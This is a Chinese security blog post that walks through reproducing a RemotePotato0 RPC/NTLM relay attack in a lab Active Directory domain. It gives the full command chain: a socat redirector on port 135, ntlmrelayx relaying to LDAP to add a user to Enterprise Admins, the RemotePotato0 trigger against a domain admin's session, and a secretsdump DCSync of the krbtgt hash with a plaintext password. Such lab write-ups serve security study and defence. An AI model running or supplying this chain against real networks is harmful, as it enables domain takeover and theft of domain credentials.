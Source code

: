 #  复现RPC中继NTLM身份验证   
原创 relaysec  Relay学安全   2023-12-10 23:45  
  
滥用 DCOM 激活服务的方法，即解组IStorage对象并将 NTLM 反射回本地 RPC TCP 端点以实现本地权限提升。虽然此漏洞已被修补，但 DCOM 激活服务曾经（现在仍然是）用于 RPC 身份验证的有效触发器。  
  
复现环境:  
  
DC: 10.10.10.139  
  
受害者机器:10.10.10.140  
  
攻击机:10.10.10.178  
  
首先查看用户的会话 可以看到这里有域管的一个会话 可以看他的会话ID为1  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ia1z64qxm2mqibyWPhHc5mcmJuoVXrH2j6IicsQIedU5wAcgbxjw8yiaVZkVibeqjCICWL8TMP1Yt7Sf2yxIliaIZckw/640?wx_fmt=png&from=appmsg "")  
  
然后我们到攻击机进行重定向转发  
  
需要您在vps上重定向转发 sudo socat TCP-LISTEN:135,fork,reuseaddr TCP:(目标机器):9997 &  
  
sudo socat TCP-LISTEN:135,fork,reuseaddr TCP:10.10.10.124:9997 &  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ia1z64qxm2mqibyWPhHc5mcmJuoVXrH2j6GBoooNGZibeWhNj9icGmDId2X8D1YU3xUB9ojU8PhGgzhibIDz4wCCAmQ/640?wx_fmt=png&from=appmsg "")  
  
进行Ntlm中继监听  
  
python3 ntlmrelayx.py -t ldap://10.10.10.139 --no-wcf-server --escalate-user win2016  这里中继到ldap --escalate-user 这个参数是你要提升权限的用户  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ia1z64qxm2mqibyWPhHc5mcmJuoVXrH2j6C9ZYyYPEVjibUodX5ibwLtC9jvgZsJbv1pbkXickxk8uKxxZH5BKBlElA/640?wx_fmt=png&from=appmsg "")  
  
接着我们去受害机器触发  
  
.\RemotePotato0.exe -m 0 -r 10.10.10.178 -p 9998 -s 1  
  
这里-s 1 是会话ID为1的域管  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ia1z64qxm2mqibyWPhHc5mcmJuoVXrH2j6mNKFs1UBwMSn9icSx4XuDOPMGALVwLfe9kNVQH3LzX8RGoomgpXBhsg/640?wx_fmt=png&from=appmsg "")  
  
接着来到攻击机  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ia1z64qxm2mqibyWPhHc5mcmJuoVXrH2j6B6fn89Gbs91LCMiaJOYAXmMMQf3eyIJSpBwELBfHxLzoVcHY3ehjldA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ia1z64qxm2mqibyWPhHc5mcmJuoVXrH2j6PEMlrDL4vLATR5ZTy1nZkyBc6Zgy2kIbWp4kiaEU2ELKwNQlbGwU1Sg/640?wx_fmt=png&from=appmsg "")  
  
可以看到这里已经权限提升成功了 此时win2016这个域用户 就拥有了企业管理员的权限 我们回到受害机可以看到 已经在Enterprise Admins组里面了  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ia1z64qxm2mqibyWPhHc5mcmJuoVXrH2j6wEZ780UKwRrt6QSXYdvPC3qX6FcJLJtWmWcGAjYvvZKdkbQBMncHibg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ia1z64qxm2mqibyWPhHc5mcmJuoVXrH2j6Hwb3NcbHBI0kt9sC9sPFbygVmzKalyibPEGcwhgIxwQhrVnCwA5ibK0w/640?wx_fmt=png&from=appmsg "")  
  
dc上也可以看到 这里已经添加成功了  
  
此时我们就可以dcsync了  
```
 python3 secretsdump.py Rt/win2016:Admin123..@10.10.10.139 -dc-ip 10.10.10.139 -just-dc-user krbtgt
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ia1z64qxm2mqibyWPhHc5mcmJuoVXrH2j6ERQ29FNV3CUmialawOXVXSwPqadWg8RBGUicBKwkzHhsibibY4Kt56P83g/640?wx_fmt=png&from=appmsg "")  
  
  

